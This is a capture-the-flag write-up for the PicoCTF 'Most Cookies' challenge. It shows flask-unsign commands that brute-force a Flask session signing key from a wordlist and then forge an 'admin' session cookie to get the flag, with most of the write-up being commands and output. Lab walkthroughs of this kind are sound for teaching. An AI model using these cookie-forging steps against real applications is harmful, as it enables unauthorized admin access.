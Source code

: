 The goal here is to change the value of `very_auth` key in the JWT token to `admin` so we can get the flag.

```python
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

First we need to figure out the secret key used to sign the tokens. To do that i set up a wordlist made of the coolie names, each one in its own line. I used the `flask-unsign` tool to bruteforce the signing key:

```zsh
┌──(kali㉿kali)-[~/PicoCTF/web_exploitation/Most_Cookies]
└─$ flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z1gi2A.2OTNjDfxwn5nVd9HjDVoEZLweJU' 
{'very_auth': 'blank'}
                                                                                                                                                                      
┌──(kali㉿kali)-[~/PicoCTF/web_exploitation/Most_Cookies]
└─$ flask-unsign --wordlist cookielist.txt --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z1gi2A.2OTNjDfxwn5nVd9HjDVoEZLweJU' --no-literal-eval
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
b'fortune'
```

Now we can change the `very_auth` value to `admin` and sign the token:

```console
┌──(kali㉿kali)-[~/PicoCTF/web_exploitation/Most_Cookies]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'                                                                    
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z1gkSA.3KiQTvh4F_i_P-c9779i243SZVM
```

And the flag

![](assets/ctf_most_cookies_flag.png)
